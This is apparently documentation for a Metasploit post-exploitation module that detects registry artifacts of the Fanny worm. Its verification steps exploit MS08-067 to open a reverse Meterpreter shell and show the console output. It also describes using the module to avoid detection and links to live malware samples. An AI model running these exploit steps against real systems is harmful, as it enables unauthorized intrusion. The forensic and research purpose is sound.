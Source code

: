 ## Fanny.bmp (DWE) Detection Module
Fanny or DWE for short. (DWE = DementiaWheel)

## Vulnerable Application
Detection module based on the post-/gather/forensics module duqu_check.rb,

Fanny is a worm that infects windows machines, via USB (not trough Autorun, or at least not only). It used exploits later found in StuxNet, and creates some Registry artifacts.
This module is intended to detect those artifacts.

POC https://user-images.githubusercontent.com/68499986/102911824-e2678280-447c-11eb-8495-7180a52c7266.png


  #### supported Environments:
    - [x] Windows x86

  ####  supported SessionTypes:
    - [x]  Meterpreter
    - [x]  Shell

  #### supported OS's:
    - [x] Windows XP Pro (SP3)

-------------------------


## Verification Steps


- [x] First, Git clone the fanny_bmp_check.rb from https://github.com/loneicewolf/metasploit_fanny_check_module/blob/main/fanny_bmp_check.rb

- [x] place it into your msf folder, (important, check the following step before placing it) usually located in /root/.msf4/modules/

- [x] * make the following folders: (under each other) /post/windows/gather/forensics/ <fanny_bmp_check.rb here>

- [x] Start msfconsole

- [x] use exploit/windows/smb/ms08_067_netapi

- [x] set RHOST and LHOST.

- [x] msf6 exploit(windows/smb/ms08_067_netapi) > run

        [*] Started reverse TCP handler on 192.168.122.1:4444 
        [*] 192.168.122.160:445 - Automatically detecting the target...
        [*] 192.168.122.160:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
        [*] 192.168.122.160:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
        [*] 192.168.122.160:445 - Attempting to trigger the vulnerability...
        [*] Sending stage (175174 bytes) to 192.168.122.160
        [*] Meterpreter session 4 opened (192.168.122.1:4444 -> 192.168.122.160:1043) at 2020-12-22 16:55:02 +0100

meterpreter > run post/windows/gather/forensics/fanny_bmp_check 

        [*] Searching registry on WORKSTATION1 for Fanny.bmp artifacts.
        [+] WORKSTATION1: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\MediaResources\acm\ECELP4\Driver found in registry.
        [+] WORKSTATION1: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\MediaResources\acm\ECELP4\filter2 found in registry.
        [+] WORKSTATION1: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\MediaResources\acm\ECELP4\filter3 found in registry.
        [+] WORKSTATION1: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\MediaResources\acm\ECELP4\filter8 found in registry.
        [*] WORKSTATION1: 4 result(s) found in registry.

-------------------------

## Options
List each option and how to use it.
Session is needed, Do not know really what to include here, other than that.

  < Intentionally left blank >

-------------------------


### Option Name

Talk about what it does, and how to use it appropriately. If the default value is likely to change, include the default value here.

  < Intentionally left blank >

-------------------------


## Scenarios
Specific #demo

### Typical Usage Scenario: Pen Test without being Detected

1 thing this could be used as, is (as with the duqu_check) to check, if a target system (that you/your team is going to/will/plan to perform one or more penetration tests on, already is infected by any of those, and it would probably make a nice looking "alert" to malware researchers who runs malwares into sandboxes and vms; (Because it would shortly make the system/vm  more "targeted" if infected even more.

For example and if a VM(for example) is infected with Duqu, Maybe it's not the most optimal 'thing' to infect it with anything (else - in general, at all) By e.g Using metasploit, (because, the system already is infected with Duqu(if we take a Duqu Infected VM/System as an example), Duqu - wich is kinda well known by now, will make the VM (or if it is a real os, which still does happen) more suspected for malware.

### So, short story: the less malicious activity (the less "malware") on a system, the less detection risk is present.

I Will upload a POC video demonstrating this on Windows 10, x64. Sooner or later.
There's already a XP POC video located here 
 - https://github.com/loneicewolf/fanny.bmp/blob/main/FannyMalware%20POC%20.mp4

"Equation Group Q&A PDF File" - Explaining (not only) Fanny, (but also many others, in the "same family" of malware)
 
 - https://github.com/loneicewolf/fanny.bmp/blob/main/Equation_group_questions_and_answers.pdf

If needed, I included malware samples on the same page.
 
 **It goes without saying that if you proceed to this page Please exercise caution.**
 
 - https://github.com/loneicewolf/fanny.bmp


## References

- [x] https://securelist.com/a-fanny-equation-i-am-your-father-stuxnet/68787
- [x] https://fmnagisa.wordpress.com/2020/08/27/revisiting-equationgroups-fanny-worm-or-dementiawheel/
- [x] https://edwardsnowden.com/wp-content/uploads/2017/06/FOXACID-Server-SOP-Redacted.pdf


### Optional reading

- [x] https://github.com/loneicewolf/fanny.bmp/blob/main/2004.06195.pdf

-------------------------


## Version and OS

### Tested on

  - [x] Windows XP Pro SP3 English


-------------------------


## Contact info

Any questions or Improvements / Issues is welcomed either via mail or at the issues tab/page.

william-martens@protonmail.ch
